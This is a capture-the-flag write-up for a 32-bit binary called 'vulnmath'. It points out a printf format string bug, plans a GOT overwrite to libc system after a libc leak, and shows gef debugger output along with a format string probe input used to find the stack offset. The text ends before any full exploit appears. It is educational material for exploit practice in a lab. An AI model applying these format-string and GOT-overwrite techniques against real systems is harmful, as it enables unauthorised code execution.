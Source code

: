 We can see the format string bug here:

```
      printf((char *)&local_48);
```

Since relro is not enabled, we will just go for the got overwrite. Since it looks like there are no good places to jump in the binary that will either give us a shell or print out the flag, I decided to jump to `system` in libc. This meant I needed a libc infoleak.

## Exploitation

We can find out where we can find our input in reference to the format string but with the standard method:

```
gef➤  r
Starting program: /home/guyinatuxedo/Desktop/tuctf/vulnmath
Welcome to VulnMath
Where your wildest shells can come true

What is 17 * 18?
> 0000.%6$x
Incorrect!
0000.30303030

What is 5 * 11?
>
```

```
gef➤  b *0x804948f
Breakpoint 1 at 0x804948f
gef➤  r
Starting program: /home/guyinatuxedo/Desktop/tuctf/vulnmath
Welcome to VulnMath
Where your wildest shells can come true

What is 12 * 3?
> 0000     
Incorrect!

Breakpoint 1, 0x0804948f in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd138  →  "0000"
$ebx   : 0x0804c000  →  0x0804bf0c  →  0x00000001
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xffffd120  →  0xffffd138  →  "0000"
$ebp   : 0xffffd178  →  0x00000000
$esi   : 0xf7fb6000  →  0x001e8d6c
$edi   : 0xf7fb6000  →  0x001e8d6c
$eip   : 0x0804948f  →  <main+441> call 0x8049110 <printf@plt>
$eflags: [zero carry PARITY ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xffffd120│+0x0000: 0xffffd138  →  "0000"     ← $esp
0xffffd124│+0x0004: 0x0804d1a0  →  "0000"
0xffffd128│+0x0008: 0x00000020
0xffffd12c│+0x000c: 0x080493ba  →  <main+228> mov ecx, eax
0xffffd130│+0x0010: 0xf7fb4a60  →  0xf7fb4a60  →  [loop detected]
0xffffd134│+0x0014: 0x00080000
0xffffd138│+0x0018: "0000"
0xffffd13c│+0x001c: 0x0000000a
```
